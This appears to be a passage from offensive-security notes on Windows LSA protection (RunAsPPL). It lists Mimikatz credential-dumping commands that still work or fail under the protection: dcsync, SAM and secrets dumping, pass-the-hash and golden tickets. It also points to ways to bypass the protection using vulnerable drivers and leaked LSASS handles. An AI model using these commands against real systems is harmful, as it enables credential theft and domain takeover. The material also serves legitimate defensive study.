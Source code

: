 #### Passwords stored in LSA (LSA Storage)

Since *Windows 8.1* you can protect LSA storage using Protected Process ([RunAsPPL](https://itm4n.github.io/lsass-runasppl/)).  
--> This will prevent regular ```mimikatz.exe sekurlsa:logonpasswords``` for working properly.

With this registry key enable, the following *3* actions (which require an handle on LSASS  ) will no longer be possible:
```
sekurlsa:logonpasswords
lsadump::lsa: Did not work
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash>
```

With this registry key enable, the following *5* actions will still be possible:
```
lsadump::dcsync /domain:<domain> /user:<user>
lsadump::secrets (get syskey information to decrypt secrets from the registry on disk)
lsadump::sam (Reading credentials from the SAM on disk)
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /krbtgt:<krbtgt hash> /endin:<value> /renewmax:<value>
keystroke logging
```

Validate *RunAsPPL* is enable
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
```

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets

Documentation about LSA secrets: https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

--> Mimikatz has the *mimidrv.sys* driver that can bypass LSA Protection. Pretty much flag everywhere you will need to write you own driver. 
    - https://posts.specterops.io/mimidrv-in-depth-4d273d19e148 
--> You can also build your own driver and sign it digitally  
--> You can also load an official and vulnerable driver that can be exploited to run arbitrary code in the Kernel  
    - https://github.com/fengjixuchui/gdrv-loader  
    - https://github.com/RedCursorSecurityConsulting/PPLKiller 
    - https://gorkemkaradeniz.medium.com/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5 
--> Use other process (e.g Antivirus process) which sometimes have already handles on LSASS process  
    - https://skelsec.medium.com/duping-av-with-handles-537ef985eb03  

#### Abusing leaked handles to dump LSASS memory
- https://github.com/helpsystems/nanodump  
- https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html  

#### LM password storage
LM hash is an old deprecated method of storing passwords which has the following weaknesses:  
- Password length is limited to 14 characters
- Passwords that are longer than 7 characters are split into two and each half is hashed separately
- All lower-case characters are converted to upper-case before hashing
